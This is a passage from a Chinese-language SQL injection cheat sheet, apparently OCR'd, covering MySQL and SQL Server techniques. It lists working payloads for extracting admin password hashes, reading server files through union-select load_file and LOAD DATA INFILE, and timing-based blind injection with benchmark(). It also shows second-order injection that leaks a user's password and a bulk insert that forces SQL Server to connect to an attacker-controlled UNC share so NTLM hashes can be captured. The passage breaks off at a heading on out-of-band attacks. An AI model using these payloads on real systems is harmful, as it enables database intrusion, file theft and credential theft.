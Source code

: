 admin密码哈希值的第一位
SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;

读取文件
php?user=1+union+select+load_file(0x63…),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1

MySQL Load Data infile
select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1(‘test’)), ‘false’ );
create table foo( line blob );
load data infile ‘c:/boot.ini’ into table foo;
select * from foo;
这个功能默认是没有开启的！
MySQL 的更多延时方法
select benchmark( 500000, sha1( ‘test’ ) );
php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
select if( user() like ‘root@%’, benchmark(100000,sha1(‘test’)), ‘false’ );
遍历数据，暴力猜解

潜在有用的 MySQL 函数

MD5()
MD5 哈希
SHA1()
SHA1 哈希
PASSWORD()
ENCODE()
COMPRESS()
压缩数据，在 SQL 盲注读取大量二进制数据时很有用。
ROW_COUNT()
SCHEMA()
VERSION()
等同于 @@version

二阶 SQL 注入

一般你在某个地方进行 SQL 注入并期望它没有被过滤掉。这是常见的隐藏层问题。

Name : ' + (SELECT TOP 1 password FROM users ) + ' 
Email : xx@xx.com

如果应用程序在一个不安全的存储过程（或函数、流程等）中使用了 name 字段，那么它会将第一个用户的密码写入到你的 name 字段。

通过强迫 SQL Server 来得到 NTLM 哈希

这个攻击能帮你得到目标服务器上 SQL Server 用户的 Windows 密码，不过你的接入连接可能会被防火墙拦截。这在内部渗透测试中非常有用。我们强迫 SQL Server 连接我们的 Windows UNC 共享（Windows 上常见的网络共享）并通过类似 Cain & Abel（网络嗅探和口令破解工具）的工具捕获 NTLM 会话数据。

从一个 UNC 共享进行 Bulk insert（S）

bulk insert foo from 'YOURIPADDRESSC$x.txt'

查看 Bulk Insert Reference 可以让你了解怎么使用 bulk insert。

带外攻击

SQL Server
